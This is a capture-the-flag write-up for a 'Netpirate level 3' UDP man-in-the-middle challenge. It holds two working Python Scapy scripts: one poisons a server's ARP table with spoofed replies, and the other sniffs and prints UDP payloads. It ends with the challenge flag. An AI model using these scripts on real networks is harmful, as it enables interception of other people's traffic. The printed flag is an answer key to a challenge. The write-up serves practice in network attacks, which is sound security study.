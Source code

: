 # Netpirate level 3 / UDP MitM

**Author:** [KptCheeseWhiz](https://github.com/KptCheeseWhiz)

## Write-up

### Terminal 1

Poison the ARP table of the server1 to receive the traffic for server2.

```python
from scapy.all import *
from time import sleep

def system(cmd):
  from os import popen
  with popen(f"{cmd} 2>&1") as p:
    return p.read().strip()

hwaddr_entrypoint=get_if_hwaddr("eth0")

# Retreive IP addresses of server1 and server2
ipaddr_server1, ipaddr_server2=system("getent hosts server1 server2 | awk '{print $1}'").split("\n")

def arp_spoof(ip_target, ip_spoof, hw_attacker):
  send(
    ARP(
      op=2,
      pdst=ip_target,
      psrc=ip_spoof,
      hwdst=hw_attacker
    ), verbose=0
  )

print("[*] Sending spoofed ARP packets")
while True:
  arp_spoof(
    ip_target=ipaddr_server1,
    ip_spoof=ipaddr_server2,
    hw_attacker=hwaddr_entrypoint
  )
  print(".", end="", flush=True)
  sleep(1)
```

### Terminal 2

Listen all UDP traffic to receive the flag, no need to forward the traffic (yet).

```python
from scapy.all import *

# Print the data contained in UDP packets
def sniff_udp(packet):
  print(f"[+] {packet[Raw].load.decode().strip()}")

print(f"[*] Listening for UDP packets")
sniff(
  prn=sniff_udp,
  filter="udp",
  store=False
)
```

## Flag

`flag-12ec5c6dcb790868b67e8ed15dac2122f462f1f88b290fb04ef3778bdb2a9d83`
